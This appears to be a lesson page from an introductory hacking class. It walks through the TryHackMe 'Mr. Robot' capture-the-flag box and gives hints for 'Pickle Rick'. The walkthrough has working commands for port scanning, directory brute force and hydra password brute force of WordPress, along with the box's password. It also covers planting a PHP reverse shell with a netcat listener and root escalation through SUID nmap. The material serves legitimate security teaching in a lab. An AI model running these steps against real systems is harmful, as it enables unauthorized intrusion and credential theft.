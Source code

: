 # Tuesday July 26th 2022

![HackerGif](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fmedia.
giphy.com%2Fmedia%2F75ulb3H2XHf5S%2Fsource.gif&f=1&nofb=1)

## 📆 Today's Schedule

- **Previous Classes Review and Survey**: 1:30 PM - 1:55 PM (25 Minutes)
- **Kahoot**: 1:55 PM - 2:10 PM (15 Minutes)
- **Hacking Mr. Robot**: 2:10 PM - 3:00 PM (50 Minutes)
- **Break**: 3:00 PM - 3:15 PM (15 Minutes)
- **Hacking Pickle Rick**: 3:15 PM - 4:00 PM (45 Minutes)

---

  What goes into the survey?

  Please take this survey, it is completely anonymous and will help
  for future classes

  [https://qfreeaccountssjc1.az1.qualtrics.com/jfe/form/SV_4PzMPxfSb60DMYm](htt
  ps://qfreeaccountssjc1.az1.qualtrics.com/jfe/form/SV_4PzMPxfSb60DMYm)

## 🏔 Previous Classes Review And Survey

!!! info "Lets Discuss What We Have Done In Class"

??? success "Class Survey"

    Please take this survey, it is completely anonymous and will help
    for future classes

    [https://qfreeaccountssjc1.az1.qualtrics.com/jfe/form/SV_4PzMPxfSb60DMYm](htt
    ps://qfreeaccountssjc1.az1.qualtrics.com/jfe/form/SV_4PzMPxfSb60DMYm)

??? success "Demographics Survey"

    Lets get some counts of the demographics

## 🎣 Phishing Kahoot

!!! warning "Can you pick out the legit scam or contact requests?"

## 🤖 Hacking Mr. Robot

!!! danger "Only hack machines that you have permission to do so"

[Walkthrough Link](https://www.youtube.com/watch?v=BQ4xeeNAbaw)

??? success "Step 1: Setup"

    We will connect to the TryHackMe servers using a vpn connection

    The Mr.Robot box must be started for us to actually be able to connect to
    the machine

??? success "Step 2: Active Reconnaissance"

    We are given an IP. Lets scan the IP for any open ports and services

    `nmap -sV -sC -oA <file> <ip>`

    What do the flags mean?

??? success "Step 3: More Recon"

    We see that there are open ports 80 and 443 for a webserver, lets visit
    the website.

??? success "Step 4: robots.txt"
    
    Lets see if anything is in the common robots.txt directory. Robots.txt
    will have folders and files that you don't want indexed by the browser.

    We have obtained key 1

??? success "Step 5: Directory brute force"

    Lets use gobuster to see if there are other endpoints on the web server
    that are useful to us.

    `gobuster dir -u http://10.10.170.179 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 -q -o scans/gosmall.txt

    We see wordpress - lets try that.

??? success "Step 6: Wordpress site"

    Lets capture a login request with burp suite.

    When we play with the login, we see that it tells us when the username
    exists or not. Lets use this to our advantage.

    `hydra -L fsocity.dic -p random 10.10.170.179 http-post-form "wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 4`

    We see the login is **Elliot**

    Lets try the passwords.

    `hydra -l Elliot -P fsocity.dic 10.10.170.179 http-post-form "wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 4`

    The password is: **ER28-0652**

??? success "Step 7: Wordpress Reverse Shell Vulnerability"

    Lets create a reverse shell into the machine hosting the server.

    We must find a reverse-php-shell on the internet and paste it into the
    archives page. Change the ip and port to matching your machine

    Lets start a nc instance and listen on port 53 (or any port)

    `nc -lvnp 53`

    We are now in the machine as DAEMON

??? success "Step 8: Escalate Privileges"

    Notice which users we can access and see what is there.

    Obtain the password

    Lets upgrade our shell

    `python -c 'import pty;pty.spawn("/bin/bash")'`

    Now we can `su robot` to login with the password we found and obtain the
    second flag

??? success "Step 9: Get Root Privileges"

    Lets look for programs that when run, run as the root user. 

    `find / -perm +6000 2>/dev/null | grep '/bin'`

    We see nmap - lets run an interactive shell

    ```
    /usr/local/bin/nmap --interactive
    !sh
    ```

    `ls /root/`

    At this point, we are a root user and can get the last key.

## 👍 Hacking Picle Rick

!!! task "Your Turn To Hack"

??? abstract "Hints"

    - You will need to use nmap to scan the open ports

    - Visit the file that excludes directories

    - You will need to use gobuster to scan the directories and inspect things

    "gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt"

    - Login page is "login.php"

    - Try to make a reverse shell using netcat
    
    - sudo su


